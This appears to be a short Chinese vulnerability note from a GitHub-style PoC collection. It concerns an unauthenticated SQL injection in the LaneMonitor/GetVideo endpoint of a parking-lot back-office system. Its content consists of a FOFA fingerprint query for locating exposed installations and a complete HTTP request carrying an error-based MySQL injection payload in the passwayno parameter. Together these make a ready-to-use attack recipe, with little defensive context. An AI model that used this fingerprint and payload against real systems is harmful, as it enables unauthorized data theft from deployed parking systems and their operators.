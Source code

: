 # 停车场后台管理系统GetVideo存在SQL注入漏洞

停车场后台管理系统 LaneMonitor/GetVideo 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```java
icon_hash="938984120"
```

## poc

```javascript
GET /LaneMonitor/GetVideo?passwayno=1%27+AND+GTID_SUBSET%28CONCAT%280x71627a7871%2C%28SELECT+%28ELT%283079%3D3079%2C1%29%29%29%2C0x7176786b71%29%2C3079%29+AND+%27OVwj%27%3D%27OVwj HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20250217095300994](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502170953065.png)